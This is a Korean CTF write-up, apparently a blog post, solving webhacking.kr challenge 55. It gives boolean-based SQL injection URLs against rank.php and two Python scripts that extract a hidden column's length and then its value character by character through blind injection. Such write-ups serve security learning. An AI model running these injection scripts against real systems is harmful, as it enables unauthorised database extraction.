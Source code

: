 그리고 다음과 같이 3개의 컬럼을 알아 낼 수 있었다.
{: .notice}

```
insert into chall55 values('id','score','p4ssw0rd_1123581321')
```

다음과 같이 입력하면 점수가 0인 누군가들의 id와 입력된 번호가 <center>에 뜬다
{: .notice}

```
https://webhacking.kr/challenge/web-31/rank.php?score=0||1  
https://webhacking.kr/challenge/web-31/rank.php?score=0||0  
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제55/55-2.JPG" alt="">
  <figcaption></figcaption>
</figure>

위와 같은 결과를 기반으로 다음과 같이 소스코드를 작성하여 Flag의 길이를 알아냈다
{: .notice}

```python
import requests
import re
headers = {'Host': 'webhacking.kr', 'Cookie': 'PHPSESSID=v1uqotqa3hrq9i176g6dpb58b9'}
url = "https://webhacking.kr/challenge/web-31/rank.php"

length = 0
for i in range(1,50):
    data = "?score=0||(if(length(p4ssw0rd_1123581321)in({}),1,0))".format(i)
    print(data)
    html = requests.get(url+data).text
    if re.search("<center>id : [누군가의 ID] // 57</center>",html):
        print("found!")
        length = i
        break
    else:
        print("Not found!")
print("length: ",length)
```


<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제55/55-3.JPG" alt="">
  <figcaption></figcaption>
</figure>

그리고나서 코드를 수정하여 FLAG 값을 알아내었다.
{: .notice}

```python
pw = ""
for i in range(1,32):
    for j in range(33,127):
        #if(right(left(p4ssw0rd_1123581321,"+str(i)+"),1)="+str(hex(j))+",1,0)
        data = "?score=0||if(right(left(p4ssw0rd_1123581321,{}),1)={},1,0)".format(i,hex(j))
        print(data)
        print(pw)
        html = requests.get(url+data).text
        if re.search("<center>id : [누군가의 ID] // 57</center>",html):            
            pw+=chr(j)
            break
        else:
            print("Not found!")
print(pw)
```
